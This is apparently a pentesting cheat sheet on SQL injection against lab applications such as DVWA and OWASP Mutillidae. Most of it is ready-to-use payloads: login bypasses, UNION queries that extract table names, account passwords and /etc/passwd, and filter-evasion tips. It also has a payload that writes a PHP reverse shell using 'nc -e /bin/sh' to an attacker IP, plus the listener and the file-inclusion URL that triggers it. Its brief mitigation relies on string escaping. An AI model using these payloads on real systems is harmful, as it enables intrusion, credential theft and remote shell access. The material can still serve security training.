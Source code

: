 # SQL Injection

## Exploit
- Login
  - username: ```admin'#``` 
  - password: ```1' or 1=1#``` 
- Data Extracting 
  - ```?page=user-info.php&username=z' union select 1,database(),user(),version(),5%23``` 
  - ```?page=user-info.php&username=z' union select 1,table_name,null,null,5 from information_schema.tables``` 
  - ```?page=user-info.php&username=z' union select 1,table_name,null,null,5 from information_schema.tables where table_schema='owasp10'``` 
  - ```?page=user-info.php&username=z' union select 1,column_name,null,null,5 from information_schema.columns where table_name='accounts'``` 
  - ```?page=user-info.php&username=z' union select 1,username,password,is_admin,5 from accounts``` 
  - ```?page=user-info.php&username=z' union select null,load_file('/etc/passwd'),null,null,null``` 
- Shell upload 
  - Payload 
    - ```?page=user-info.php&username=z' union select '<?passthru("nc -e /bin/sh 10.20.14.208 8080");?>',null into outfile '/tmp/reverse.php'``` 
  - Listen on attacker machin:
    - nc -vv -l -p 8080
  - Run backdoor
    - ```10.20.14.211/dvwa/vulnerabilities/fi/?page=../../../../../tmp/reverse.php```
- Tips
  - TRUE statements
    - ```aNd 1=1``` & ```aNd 21=21``` & ```orDeR bY 1``` 
  - FALSE statements
    - ```dNd 0=1``` & ```anD 9=2``` & ```ordEr bY 1000000000000```   
  - Spaces
    - ```+``` & ```/**/``` & ```%20``` 
    - ```orDeR bY 1 can be re-written as``` => ```orDer+bY+1``` or ```orDer/**/bY/**/1``` or ```orDer%20bY%201```
  - Comments to end the quries
    - ```/*``` & ```//``` & ```#``` & ```%23```
    - Sometimes you might need to add ';' before the comment
      - ```anD 1=1//``` => ```anD 1=1;//```
## Tool
[SQLMAP](../Tools/sqlmap.md)

## Mitigation
- Secure Code for login in PHP
```PHP
$query = "SELECT * FROM accounts WHERE username='".
$conn->real_escape_string($username).
"'AND password='".
$conn->real_escape_string($password).
"'"
```
